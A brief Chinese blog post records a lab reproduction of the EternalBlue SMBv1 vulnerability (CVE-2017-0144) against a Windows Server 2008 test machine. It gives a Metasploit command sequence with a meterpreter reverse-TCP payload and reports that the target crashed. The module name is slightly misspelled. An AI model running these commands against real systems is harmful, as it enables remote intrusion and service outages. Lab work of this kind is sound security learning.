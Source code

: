 # Windows Server 2008 CVE20170144验证

<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=29567192&auto=1&height=66"></iframe>  

歌挺好听，奈何水文太短，看完歌都没听完。😂抱歉了~嘿嘿嘿

本文也是照着别人写的例子完全操作成功了，然后再记录下来的，为方便以后使用，特此整理记录。

### 漏洞信息
CVEID：2017-0144  
漏洞名称：Windows server 2008系列缓冲区溢出漏洞（永恒之蓝）  
发布时间：2017-03-14

### 漏洞简介
Server Message Block（SMB）Server是为计算机提供身份验证用以访问服务器上打印机和文件系统的组件。 Microsoft Windows中的SMBv1服务器存在远程代码执行漏洞。远程攻击者可借助特制的数据包利用该漏洞执行任意代码。

### 实验环境
Kali x64（攻击机）：192.168.0.6  
Windows server 2008 x64（靶机）：192.168.0.9

```sh
msfconsole
use exploit/windows/smb/ms17_010_eternalbluer
set LHOST 192.168.0.6 
set RHOST 192.168.0.9 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

![winserver2008attack1](/images/posts/winserver2008attack1.png)



![winserver2008attack2](/images/posts/winserver2008attack2.png)



### 现象：

靶机windows server 2008 x64蓝屏宕机重启。

 ![winserver2008crush](/images/posts/winserver2008-crush.png)


---

> : 蓝红柿  
> URL: http://localhost:1313/zh/zh/posts/win-server-2008-cve20170144/  

